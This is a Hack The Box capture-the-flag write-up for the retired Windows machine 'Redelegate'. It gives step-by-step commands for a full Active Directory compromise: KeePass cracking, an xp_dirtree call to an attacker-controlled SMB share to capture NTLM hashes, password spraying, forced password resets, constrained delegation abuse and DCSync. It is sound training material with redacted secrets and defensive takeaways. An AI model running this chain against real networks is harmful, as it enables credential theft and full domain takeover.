


# Redelegate — Hack The Box

| Attribute  | Details                                                                                                 |
| ---------- | ------------------------------------------------------------------------------------------------------- |
| Difficulty | Hard                                                                                                    |
| OS         | Windows                                                                                                 |
| Status     | Retired                                                                                                 |
| Focus      | Anonymous FTP, KeePass, MSSQL, password spraying, Active Directory ACLs, constrained delegation, DCSync |

## Overview

Redelegate demonstrates a multi-stage Active Directory compromise beginning with
anonymous FTP access that exposes internal documents and a KeePass database. A
password-pattern hint contained in an employee training document allows the
KeePass master password to be recovered, revealing credentials for a local
MSSQL account.

Authenticated MSSQL access enables further domain enumeration and identification
of Active Directory users. Password spraying identifies valid credentials for
`Marie.Curie`, whose Active Directory permissions allow her to forcibly change
the password of `Helen.Frost`. Helen has WinRM access to the domain controller,
the `SeEnableDelegationPrivilege` privilege, and control over the `FS01$`
computer object. These permissions can be combined to configure constrained
delegation, impersonate a privileged account, and perform DCSync against the
domain.

## Attack Path

`Anonymous FTP → KeePass Database → Password Hint → KeePass Cracking → SQLGuest → MSSQL → RID Brute Force → Password Spray → Marie.Curie → ForceChangePassword → Helen.Frost → WinRM → SeEnableDelegationPrivilege → FS01$ → Constrained Delegation → Kerberos Impersonation → DCSync → Administrator`

## Reconnaissance

Initial Nmap enumeration identified a Windows Server domain controller exposing
a standard Active Directory service stack.

```shell
nmap -sC -sV -p- <TARGET_IP>
```

Notable services included:

```text
21/tcp    FTP
53/tcp    DNS
80/tcp    HTTP
88/tcp    Kerberos
135/tcp   MSRPC
139/tcp   NetBIOS
389/tcp   LDAP
445/tcp   SMB
3389/tcp  RDP
5985/tcp  WinRM
```

The scan identified the Active Directory domain as:

```text
redelegate.vl
```

and the domain controller as:

```text
dc.redelegate.vl
```

More importantly, FTP permitted anonymous authentication and exposed three
files.

```text
CyberAudit.txt
Shared.kdbx
TrainingAgenda.txt
```

Anonymous authentication to the FTP service succeeded without valid domain
credentials.

```shell
ftp <TARGET_IP>
```

The exposed files were downloaded for offline analysis.

```text
CyberAudit.txt
Shared.kdbx
TrainingAgenda.txt
```

`CyberAudit.txt` contained findings from a previous security audit, including
references to weak passwords, excessive privileges, unused Active Directory
objects, and dangerous ACLs.

`TrainingAgenda.txt` contained a particularly interesting password-awareness
example:

```text
Weak Passwords - Why "SeasonYear!" is not a good password
```

This suggested that seasonal passwords may have been used within the
environment.

## Enumeration

### KeePass Database

The FTP share also exposed `Shared.kdbx`, an encrypted KeePass database.

The database was converted into a crackable hash using `keepass2john`.

```shell
keepass2john Shared.kdbx > keepass_hash.txt
```

A small custom password list was created using combinations based on the
`SeasonYear!` pattern identified in the training document.

```shell
john keepass_hash.txt --wordlist=passwords.txt
```

The KeePass master password was successfully recovered.

Opening the KeePass database revealed several stored credentials. The most
immediately useful entry belonged to the `SQLGuest` account.

```text
Username: SQLGuest
Password: <REDACTED>
```

### MSSQL Enumeration

The recovered credential was tested against the MSSQL service and successfully
authenticated using local authentication.

```shell
nxc mssql <TARGET_IP> \
    -u SQLGuest \
    -p '<SQLGUEST_PASSWORD>' \
    --local-auth
```

An interactive SQL session was established using Impacket.

```shell
impacket-mssqlclient SQLGuest@<TARGET_IP>
```

The account had limited SQL Server privileges and could not enable
`xp_cmdshell`.

```sql
enable_xp_cmdshell
```

The attempt failed because `SQLGuest` did not possess sufficient permissions.

However, `xp_dirtree` could still be used to force the SQL Server to access an
attacker-controlled SMB path.

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\share\'
```

Responder captured an NTLMv2 authentication attempt from the MSSQL service
account:

```text
REDELEGATE\sql_svc
```

The captured hash could not be recovered offline, so further enumeration was
performed using the valid MSSQL credentials.

### Domain User Enumeration

NetExec's RID brute-force functionality was used through the authenticated
MSSQL context.

```shell
nxc mssql <TARGET_IP> \
    -u SQLGuest \
    -p '<SQLGUEST_PASSWORD>' \
    --local-auth \
    --rid-brute
```

Notable accounts included:

```text
Christine.Flanders
Marie.Curie
Helen.Frost
Michael.Pontiac
Mallory.Roberts
James.Dinkleberg
Ryan.Cooper
sql_svc
```

Several domain groups were also identified:

```text
Helpdesk
IT
Finance
DnsAdmins
DnsUpdateProxy
```

A username list was created from the enumeration results.

### Password Spraying

The seasonal password discovered during the KeePass attack was tested against
the enumerated domain accounts.

```shell
nxc smb <TARGET_IP> \
    -u usernames.txt \
    -p '<SEASONAL_PASSWORD>' \
    --continue-on-success
```

The password was valid for:

```text
REDELEGATE\Marie.Curie
```

### Active Directory Enumeration

With valid domain credentials available, authenticated Active Directory
enumeration was performed.

Machine Account Quota was checked first.

```shell
nxc ldap <TARGET_IP> \
    -u Marie.Curie \
    -p '<MARIE_PASSWORD>' \
    -M maq
```

The domain was configured with:

```text
MachineAccountQuota: 0
```

This prevented the normal unprivileged creation of an additional computer
account.

I also tested whether Marie could create a DNS record.

```shell
python3 dnstool.py \
    -u 'REDELEGATE.VL\Marie.Curie' \
    -p '<MARIE_PASSWORD>' \
    -r 'test' \
    -a add \
    -d '<ATTACKER_IP>' \
    <TARGET_IP>
```

The LDAP operation failed with:

```text
insufficientAccessRights
```

BloodHound was then used to examine Active Directory permissions and
relationships.

BloodHound revealed that `Marie.Curie` possessed the ability to forcibly change
the passwords of other domain users.



The most interesting target was `Helen.Frost`. BloodHound showed that Helen
occupied a more privileged position in the domain and had control over the
`FS01$` computer object.



## Initial Foothold

Marie's `ForceChangePassword` permission was used to reset the password of
`Helen.Frost`.

```shell
bloodyAD \
    --host <TARGET_IP> \
    -d redelegate.vl \
    -u Marie.Curie \
    -p '<MARIE_PASSWORD>' \
    set password Helen.Frost '<NEW_HELEN_PASSWORD>'
```

The password change completed successfully.

The newly controlled account was then tested against WinRM.

```shell
nxc winrm <TARGET_IP> \
    -u Helen.Frost \
    -p '<NEW_HELEN_PASSWORD>'
```

Authentication succeeded, confirming that Helen was permitted to remotely
manage the domain controller.

An interactive session was established using Evil-WinRM.

```shell
evil-winrm \
    -i <TARGET_IP> \
    -u Helen.Frost \
    -p '<NEW_HELEN_PASSWORD>'
```

This provided the initial interactive foothold on the domain controller.

## Privilege Escalation

### Privilege Enumeration

Local privilege enumeration showed that Helen possessed
`SeEnableDelegationPrivilege`.

```powershell
whoami /priv
```

Relevant privileges included:

```text
SeMachineAccountPrivilege
SeChangeNotifyPrivilege
SeEnableDelegationPrivilege
SeIncreaseWorkingSetPrivilege
```

`SeEnableDelegationPrivilege`, combined with Helen's control over the `FS01$`
computer object, provided a path to configuring Kerberos constrained
delegation.

### Obtaining a Kerberos TGT

A Kerberos TGT was first requested for Helen.

```shell
impacket-getTGT redelegate.vl/Helen.Frost:'<HELEN_PASSWORD>'
```

The resulting credential cache was loaded into the current shell.

```shell
export KRB5CCNAME=Helen.Frost.ccache
```

### Taking Control of FS01$

Helen's permissions were used to reset the password of the `FS01$` computer
account.

```shell
bloodyAD \
    -d redelegate.vl \
    -k \
    --host dc.redelegate.vl \
    set password 'FS01$' '<NEW_MACHINE_PASSWORD>'
```

### Configuring Constrained Delegation

The machine account was configured with the
`TRUSTED_TO_AUTH_FOR_DELEGATION` flag.

```shell
bloodyAD \
    -d redelegate.vl \
    -k \
    --host dc.redelegate.vl \
    add uac 'FS01$' \
    -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

The `msDS-AllowedToDelegateTo` attribute was then configured to allow
delegation to the CIFS service on the domain controller.

```shell
bloodyAD \
    -d redelegate.vl \
    -k \
    --host dc.redelegate.vl \
    set object 'FS01$' \
    msDS-AllowedToDelegateTo \
    -v 'cifs/dc.redelegate.vl'
```

At this point, the controlled `FS01$` account was configured for constrained
delegation to the CIFS service on the domain controller.

### Kerberos Impersonation

The controlled `FS01$` account could now request a Kerberos service ticket
while impersonating the privileged account used in the attack path.

```shell
impacket-getST \
    redelegate.vl/'FS01$':'<MACHINE_PASSWORD>' \
    -spn cifs/dc.redelegate.vl \
    -impersonate dc
```

The request successfully completed the S4U Kerberos flow:

```text
Getting TGT for user
Impersonating dc
Requesting S4U2self
Requesting S4U2Proxy
Saving ticket
```

This produced a Kerberos credential cache containing the delegated CIFS service
ticket.

### DCSync

The resulting Kerberos service ticket provided sufficient access to perform the
final directory replication attack.

```shell
KRB5CCNAME=<SERVICE_TICKET>.ccache \
impacket-secretsdump \
    -k dc.redelegate.vl \
    -just-dc-user Administrator
```

The domain controller returned the Administrator credential material.

```text
Administrator:500:<REDACTED>
```

Successful DCSync confirmed full compromise of the Active Directory domain.

## Key Takeaways

* Anonymous file services should not expose credential stores or internal
  security documentation.
* Security-awareness material can unintentionally disclose real organizational
  password-generation patterns.
* KeePass databases remain sensitive even when encrypted if weak master
  passwords are used.
* Low-privilege MSSQL access can provide useful Windows and Active Directory
  enumeration opportunities even without `xp_cmdshell`.
* Predictable or reused seasonal passwords can allow a recovered password
  pattern to become useful for password spraying.
* Active Directory permissions such as `ForceChangePassword` can provide direct
  attack paths between users.
* `SeEnableDelegationPrivilege` should be assigned only where operationally
  necessary.
* Control over a computer object combined with delegation rights can enable
  Kerberos impersonation and domain compromise.
* BloodHound is especially valuable for identifying privilege paths based on
  Active Directory relationships rather than traditional local privilege
  escalation.

## Tools Used

`Nmap` · `FTP` · `keepass2john` · `John the Ripper` · `NetExec` ·
`Impacket` · `Responder` · `BloodHound` · `BloodyAD` · `Evil-WinRM`

---

*Flags, passwords, hashes, and other sensitive credential material are redacted.
This write-up covers retired Hack The Box content only.*
